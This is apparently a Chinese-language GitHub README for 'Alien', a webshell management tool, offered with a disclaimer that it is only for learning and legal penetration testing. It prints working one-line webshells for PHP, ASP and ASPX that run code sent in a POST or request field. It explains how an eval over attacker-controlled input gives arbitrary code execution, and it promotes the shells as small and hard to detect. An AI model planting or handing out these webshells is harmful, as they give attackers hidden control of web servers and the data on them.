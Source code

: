 # Alien

網站管理工具

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

當然, Alien還可以使用asmx, ashx的Webshell。

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片

![1](https://github.com/malbuffer4pt/WebBus/blob/main/1.png)
![2](https://github.com/malbuffer4pt/WebBus/blob/main/2.png)
![3](https://github.com/malbuffer4pt/WebBus/blob/main/3.png)
![4](https://github.com/malbuffer4pt/WebBus/blob/main/4.png)

## 致謝
研究webshell的各位前輩
